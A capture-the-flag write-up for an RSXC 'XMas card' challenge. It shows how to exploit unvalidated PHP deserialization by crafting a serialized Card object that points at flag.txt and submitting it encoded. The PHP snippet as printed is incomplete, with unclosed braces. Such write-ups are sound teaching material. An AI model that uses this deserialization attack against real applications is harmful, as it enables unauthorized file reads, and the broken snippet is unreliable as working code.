






# Day 17 - My XMas card

We felt like it's time to start sending out some XMas cards, maybe you find something you like?
http://rsxc.no:20017

## Write-Up
Browsing the link we are given show us the following



The text says "Finding your card in /files" and if we look in "/files" we get a directory listing.



The needed *flag.txt* are there, but we are not allowed to view it. We can look at the source of the "index.php-1" file, but it is incomplete. But if we try to look at the request through *Burp* we will see the complete code.





From the code we see that there is some *de-serialization* being done without any input validation. So I think we should be able to exploit this. We can craft our own *php* code with the "Card" class from the source we got through *Burp*. We need to change the *$file* variable and add code to echo out the string we need. Save it as i.e. *card-test.php*

``` php
<?php
class Card{
    public $file = "flag.txt";
    function __construct()
{

$card = new Card;

echo urlencode(base64_encode(serialize($card)));
?>
```

To run this we can start a small PHP server locally and use our browser to look at the page.

```
$ php -S 127.1:20017

$ firefox localhost:20017/card-test.php
```

This will open *FireFox* and present us with the following



Going back to the challenge of today and using our newly created string as input we get




## The Flag
RSXC{Care_needs_to_be_taken_with_user_supplied_input.It_should_never_be_trusted}